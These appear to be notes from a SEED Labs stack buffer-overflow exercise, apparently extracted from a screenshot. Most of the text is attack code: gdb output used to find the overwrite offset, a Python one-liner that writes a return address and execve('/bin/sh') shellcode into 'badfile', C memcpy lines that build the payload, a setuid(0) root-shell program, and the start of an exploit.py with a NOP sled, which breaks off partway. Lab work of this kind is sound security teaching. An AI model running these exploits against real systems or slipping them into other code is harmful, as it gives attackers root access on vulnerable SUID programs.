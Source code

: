 Find Offset:

```
[11/25/18]seed@VM:~/00$ c

Segmentation fault (core dumped)
[11/25/18]seed@VM:~/00$ sudo gdb ./stack core
...
Core was generated by `./stack'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x42424242 in ?? ()
```

exploit:

```bash
python -c "print('A' * 36 + '\xa0\xea\xff\xbf' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')" > badfile; ./stack
```

complete the C program which will generate a exploit:

```c
/* You need to fill the buffer with appropriate contents here */ 
memcpy(&buffer[36], "\xa0\xea\xff\xbf", 4);
memcpy(&buffer[200], shellcode, strlen(shellcode));
```

After we get a SUID shell, we'd better to use `setuid` to become the real root user:

```c
// toRoot.c
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>
void main() {
  setuid(0);  system("/bin/sh");
}
```

Python version:

```python
#!/usr/bin/python3
# exploit.py
import sys

shellcode= ( 
    "\x31\xc0"             # xorl    %eax,%eax              
    "\x50"                 # pushl   %eax                   
    "\x68""//sh"           # pushl   $0x68732f2f            
    "\x68""/bin"           # pushl   $0x6e69622f            
    "\x89\xe3"             # movl    %esp,%ebx              
    "\x50"                 # pushl   %eax                   
    "\x53"                 # pushl   %ebx                   
    "\x89\xe1"             # movl    %esp,%ecx              
    "\x99"                 # cdq                            
    "\xb0\x0b"             # movb    $0x0b,%al              
    "\xcd\x80"             # int     $0x80                  
    "\x00"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

#########################################################################
# Replace 0 with the correct offset value
D = 36
# Fill the return address field with the address of the shellcode
```